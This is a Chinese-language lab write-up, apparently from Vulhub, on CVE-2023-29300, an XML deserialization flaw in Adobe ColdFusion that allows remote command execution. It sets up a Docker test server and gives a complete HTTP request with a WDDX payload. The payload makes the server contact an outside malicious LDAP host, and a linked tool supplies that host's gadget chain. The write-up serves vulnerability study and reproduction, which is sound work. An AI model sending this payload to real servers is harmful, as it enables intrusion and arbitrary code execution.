


# Adobe ColdFusion XML 反序列化命令执行漏洞（CVE-2023-29300）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion在2018.0.16、2021.0.6、2023.0.0.330468版本及以前，存在一处XML反序列化漏洞。攻击者可以利用该漏洞调用Java中任意setter方法，最终执行任意命令。

参考链接：

- <https://blog.projectdiscovery.io/adobe-coldfusion-rce/>
- <https://xz.aliyun.com/t/13413>

## 漏洞环境

启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

要利用这个漏洞，需要先找到一个可利用的setter方法作为Gadget。最常见的Gadget是利用`com.sun.rowset.JdbcRowSetImpl`来进行JNDI注入，并执行任意命令。

你可以使用<https://github.com/java-Chains/web-chains>启动一个恶意LDAP服务器，并生成基于`CommonsBeanutils1`利用链的payload：



然后，将恶意LDAP地址替换到如下请求中发送：

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

可见，`touch /tmp/success`已被成功执行：


